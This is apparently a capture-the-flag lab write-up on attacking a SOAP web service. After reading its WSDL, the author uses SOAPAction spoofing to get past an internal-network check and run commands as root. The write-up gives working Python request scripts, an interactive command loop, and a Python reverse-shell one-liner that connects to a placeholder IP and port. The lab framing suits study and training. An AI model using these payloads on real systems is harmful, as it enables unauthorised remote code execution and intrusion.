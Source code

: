 ```yaml
---
sticker: emoji//1f480
---
```

Our client tasks us with assessing a SOAP web service whose WSDL file resides at `http://<TARGET IP>:3002/wsdl?wsdl`.

Assess the target, identify an SQL Injection vulnerability through SOAP messages and answer the question below.

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219173246.png)

Let's check it out:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219173341.png)

We get this code:

```xml
<wsdl:definitions targetNamespace="http://tempuri.org/">
<wsdl:types>
<s:schema elementFormDefault="qualified" targetNamespace="http://tempuri.org/">
<s:element name="LoginRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="username" type="s:string"/>
<s:element minOccurs="1" maxOccurs="1" name="password" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
<s:element name="LoginResponse">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="unbounded" name="result" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
<s:element name="ExecuteCommandResponse">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="unbounded" name="result" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
</s:schema>
</wsdl:types>
<!-- Login Messages -->
<wsdl:message name="LoginSoapIn">
<wsdl:part name="parameters" element="tns:LoginRequest"/>
</wsdl:message>
<wsdl:message name="LoginSoapOut">
<wsdl:part name="parameters" element="tns:LoginResponse"/>
</wsdl:message>
<!-- ExecuteCommand Messages -->
<wsdl:message name="ExecuteCommandSoapIn">
<wsdl:part name="parameters" element="tns:ExecuteCommandRequest"/>
</wsdl:message>
<wsdl:message name="ExecuteCommandSoapOut">
<wsdl:part name="parameters" element="tns:ExecuteCommandResponse"/>
</wsdl:message>
<wsdl:portType name="HacktheBoxSoapPort">
<!-- Login Operaion | PORT -->
<wsdl:operation name="Login">
<wsdl:input message="tns:LoginSoapIn"/>
<wsdl:output message="tns:LoginSoapOut"/>
</wsdl:operation>
<!-- ExecuteCommand Operation | PORT -->
<wsdl:operation name="ExecuteCommand">
<wsdl:input message="tns:ExecuteCommandSoapIn"/>
<wsdl:output message="tns:ExecuteCommandSoapOut"/>
</wsdl:operation>
</wsdl:portType>
<wsdl:binding name="HacktheboxServiceSoapBinding" type="tns:HacktheBoxSoapPort">
<soap:binding transport="http://schemas.xmlsoap.org/soap/http"/>
<!-- SOAP Login Action -->
<wsdl:operation name="Login">
<soap:operation soapAction="Login" style="document"/>
<wsdl:input>
<soap:body use="literal"/>
</wsdl:input>
<wsdl:output>
<soap:body use="literal"/>
</wsdl:output>
</wsdl:operation>
<!-- SOAP ExecuteCommand Action -->
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
<wsdl:input>
<soap:body use="literal"/>
</wsdl:input>
<wsdl:output>
<soap:body use="literal"/>
</wsdl:output>
</wsdl:operation>
</wsdl:binding>
<wsdl:service name="HacktheboxService">
<wsdl:port name="HacktheboxServiceSoapPort" binding="tns:HacktheboxServiceSoapBinding">
<soap:address location="http://localhost:80/wsdl"/>
</wsdl:port>
</wsdl:service>
</wsdl:definitions>
```

If we check the code, we can find the following:

```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```

We got an `executeCommand` element which uses a `cmd`, let's try using this `client.py` script to issue the requests:

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

If we execute it:

```
python3 client.py                               
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>'
```

We get an error mentioning `This function is only allowed in internal networks`. We have no access to the internal networks. We need to spoof, let's do it using this python script, let's name if `SOAPSpoof.py`:

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

We get the following output:

```
ython3 SOAPSpoof.py 
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root\n</result></LoginResponse></soap:Body></soap:Envelope>
```

Now, the `whoami` command we specified in the script worked, as seen, the server responds with `root`, we can automate the process with this script:

```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://10.129.27.149:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```


We can stabilize and use netcat once we get the shell using:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219174430.png)

And we get a better shell, let's look around for the flag:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219175030.png)

We can see an `app.js` file, if we grep it for the flag, this happens:

```
root@nix01-websvc:/app/soap-wsdl# cat app.js | grep FLAG
  'FLAG{1337_SQL_INJECTION_IS_FUN_:)}'
```

We got our flag:

```
FLAG{1337_SQL_INJECTION_IS_FUN_:)}
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219175123.png)

